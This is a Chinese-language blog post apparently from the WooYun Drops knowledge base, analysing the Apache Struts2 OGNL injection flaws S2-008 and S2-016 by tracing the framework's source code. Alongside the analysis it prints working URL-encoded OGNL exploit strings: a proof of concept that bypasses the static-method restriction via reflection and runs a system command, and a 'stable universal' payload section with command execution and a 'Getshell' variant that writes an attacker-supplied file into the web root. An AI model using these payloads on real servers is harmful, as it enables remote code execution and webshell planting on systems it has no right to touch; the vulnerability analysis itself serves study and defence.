# struts2 最近几个漏洞分析&稳定利用 payload

2014/02/11 11:48 | [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

weibo:[genxor](http://weibo.com/u/2296090825)

## 0x00 背景

* * *

看到网上关于 struts2 利用的文章非常多，但是对于漏洞触发跟踪分析的文档比较少，闲来无事跟踪了一下 struts 最近吵得比较火的两个漏洞，研究了一下能够稳定利用的 payload。

## 0x01 S2-008

* * *

Struts2 框架存在一个 devmode 模式，方便开发人员调试程序，但是默认 devmode 是不开启的，如果想要使用，需要手动修改参数，可以将 struts.properties 中的 devmode 设置为 true，或是在 struts.xml 中添加如下代码，

```
<constant name="struts.devMode" value="true" /> 
```

实际上 devmode 依赖于 struts2 底层的 struts2-core.jar 中的 DebuggingInterceptor.java 实现，然后漏洞也存在于此程序中。这里我以 debug=command 这个逻辑下，测试漏洞，我的 POC 如下所示：

```
http://localhost:8080/S2-016/hello.action?debug=command&expression= %23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

首先，这里是 devmode 的几种模式，



继续跟踪 DebuggingInterceptor.java 的代码，发现问题出在下面这个逻辑当中



跟踪参数如图



可以看到这里

```
String cmd = getParameter(EXPRESSION_PARAM); 
… 
writer.print(stack.findValue(cmd)); 
```

这里 cmd 没做任何处理，后面直接 findValue（findValue 能够执行 OGNL 表达式，具体参考官方文档），导致 OGNL 表达式执行。

关于这个漏洞执行，其实没什么好说的，关键是这个 payload 调用 java 反射类(可以访问一些私有成员变量)绕过了 struts2 限制执行 java 静态方法的规则法的规则，使之前 apache 官方的修复又白费了。因为 struts2 在 2.3.14.1 版本之后便设置#_memberAccess[“allowStaticMethodAccess”]为不可修改，而要调用 java 静态方法，必须要设置 allowStaticMethodAccess 为 true 才可以。这里使用

```
#f = #_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')
#f.setAccessible(true) 
#f.set(#_memberAccess, true) 
```

这里使用 java 的反射机制绕过了限制。另外，还有利用 java.lang.ProcessBuilder 类的 start()方法来实现（ProcessBuilder 类是用来创建系统进程的，每个实例管理一个进程属性集合，start 方法用来创建一个新的进程实例，并且可以从相同的实例中反复多次的初始化、创建子进程。随便构造一个 java.lang.ProcessBuilder 的实例，然后调用它的 start()方法，便达到命令执行的目的），但这个算是另一种思路，并没有从根本上修改#_memberAccess[“allowStaticMethodAccess”]的值。

## 0x02 S2-016

* * *

在 struts2 中，DefaultActionMapper 类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟 OGNL 表达式，由于 struts2 没有对这些前缀做过滤，导致利用 OGNL 表达式调用 java 静态方法执行任意系统命令。

这里以“redirect:”前缀举例，struts2 会将“redirect:”前缀后面的内容设置到 redirect.location 当中，这里我们一步步跟踪，首先是这个 getMapping 函数跟入



这里一直到这个 handleSpecialParameters()，继续跟入





这里真正传入 OGNL 表达式是在这个 parameterAction.execute()中，继续跟入来到 DefaultActionMapper.java 的代码



这里 key.substring(REDIRECT_PREFIX.length())便是前缀后面的内容也就是 OGNL 表达式，struts2 会调用 setLocation 方法将他设置到 redirect.location 中。然后这里调用 mapping.setResult(redirect)将 redirect 对象设置到 mapping 对象中的 result 里，如图所示



然而上面的过程只是传递 OGNL 表达式，真正执行是在后面，这里是在 FilterDispatcher 类中的 dispatcher.serviceAction()方法，这里的 mapping 对象中设置了传入的 OGNL



这里跟入方法最终会在 TextParseUtil 这个类的调用 stack.findValue()方法执行 OGNL。



## 0x03 PAYLOAD

* * *

这里我结合之前几个漏洞凑出一个通用 payload，目前测试还是很稳定的

命令执行

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

Getshell

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletRequest%22%29%2c%23b%3dnew+java.io.FileOutputStream%28new%20java.lang.StringBuilder%28%23a.getRealPath%28%22/%22%29%29.append%28@java.io.File@separator%29.append%28%23a.getParameter%28%22name%22%29%29.toString%28%29%29%2c%23b.write%28%23a.getParameter%28%22t%22%29.getBytes%28%29%29%2c%23b.close%28%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%22BINGO%22%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

同时在之前的 struts2exp 这个程序基础上修改出一个 exp，整合了近几年出现的几个高危漏洞,



程序先不公开放出，大家可以自己用语句测试自己的服务器是否有该问题。

版权声明：未经授权禁止转载 [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [OQL(对象查询语言)在产品实现中造成的 RCE(Object Injection)](http://drops.wooyun.org/papers/4115)
*   [BCTF Writeup](http://drops.wooyun.org/papers/1071)
*   [Spring MVC xml 绑定 pojo 造成的 XXE](http://drops.wooyun.org/papers/1911)